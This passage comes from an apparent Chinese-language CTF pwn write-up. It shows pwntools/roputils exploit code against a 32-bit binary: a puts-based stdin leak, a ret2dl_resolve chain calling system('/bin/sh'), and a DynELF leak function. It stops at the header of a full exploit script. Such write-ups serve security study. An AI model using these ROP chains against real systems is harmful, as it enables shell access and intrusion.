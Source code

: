 	# step 2: leak the value of stdin
	offset = 0x30
	payload = pwn_rop.retfill(offset)
	payload += p32(puts_plt) + p32(pop_ret) + p32(stdin_addr)
	payload += p32(vul_func)
	sla('comment: ',payload)
	stdin_addr = u32(rv(4))
	lg('stdin_addr',stdin_addr)

	# step 3: dl_resolve
	sl('END')
	payload = pwn_rop.retfill(offset)
	payload += pwn_rop.call(fgets_plt, addr_bss, 100, stdin_addr)
	payload += pwn_rop.dl_resolve_call(addr_bss + 20, addr_bss)
	sla('comment: ',payload)

	payload = pwn_rop.string('/bin/sh')
	payload += pwn_rop.fill(20, payload)
	payload += pwn_rop.dl_resolve_data(addr_bss + 20, 'system')
	payload += pwn_rop.fill(100, payload)
	sl(payload)

#### Method 2: DynELF ####
使用puts函数构造的leak函数如下所示。  

    def leak(address,length=4):
    	global data
    	sl('END')
    	#tmp = rl()
    	#print 'tmp' + tmp
    	if(address%0x100 == 0xa):
    		address = address + 1
    	payload = 'A'*0x30
    	payload += p32(puts_plt) + p32(pop_ret) + p32(address)
    	payload += p32(vul_func)
    	sla('comment: ',payload)
    	up = ''
    	buf = ''
    	while True:
    		c = p.recv(numb=1, timeout=1)
    		#count += 1
    		if up == '\n' and c == "":
    			buf = buf[:-1]
    			buf += "\x00"
    			break
    		else:
    			buf += c
    		up = c
    	data = buf[:4]
    	print "%#x => %s" % (address, (data or '').encode('hex'))
    	return data
由于puts函数的输出无法指定输出字节数，因此考虑使用recv函数timeout特性，逐字节的读取输出内容。然后判断上一次的输出是否为一个'\n'，当前输出是否为一个'\0'来鉴定puts函数是否已经完成输出。  
计算得到system函数地址后，就是普通的ROP调用过程，使用fgets写入'/bin/sh'，然后进行调用。  
## 3.exploit代码 ##
### 3.1 使用dl_resolve AC代码 ###
    from pwn import *
    from ctypes import *
    import os
    import roputils as rop